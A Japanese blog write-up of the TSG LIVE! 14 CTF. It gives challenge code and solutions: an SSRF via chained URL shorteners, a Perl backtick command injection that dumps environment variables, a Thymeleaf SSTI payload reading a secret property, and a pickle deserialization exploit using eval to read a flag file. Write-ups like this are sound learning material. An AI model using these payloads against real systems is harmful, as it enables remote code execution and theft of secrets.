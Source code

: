 ```yaml
---
title: "TSG LIVE! 14 CTF writeup"
tags:
  - "CTF"
  - "writeup"
---
```


今回は東京大学TSGさんにお誘いいただき、TPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのコンテンツの一つとして2時間半のCTFが開催されました。その他にもコードゴルフや競技プログラミングなどの企画があるようです。

アーカイブはこちら（解説やインタビューがあります）

https://www.youtube.com/live/7Oxm6mKCIjw?si=HrOzfdgtfbOWBeq5

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮1->target)、外部の短縮URLを使い作るサービス(短縮2->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json showLineNumbers=false
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei](短縮2->is.gd->X.gd->短縮1->target)

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```perl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。[^space]ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?
[^space]: スペースは駄目ですが、タブ文字(0x09)を使用すれば行けるみたいです https://x.com/iwashiira/status/1926579710579834905

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt showLineNumbers=false
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt showLineNumbers=false
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていましたが、全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているわけで...

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？
そのまま2つのフラグが獲得できてしまい、部屋は大盛りあがりでした。

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

ここで実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、

![実行結果](../../images/ctf/tsg-live-14/hisoutei3.png "実行結果")

フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ

![リザルト画像](../../images/ctf/tsg-live-14/result.png "リザルト画像")

CTF初めて数ヶ月、初めてオンサイトのCTFに参加しましたが、わいわいできて非常に楽しかったです。招待してくださったTSGの皆様と、誘ってくれたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
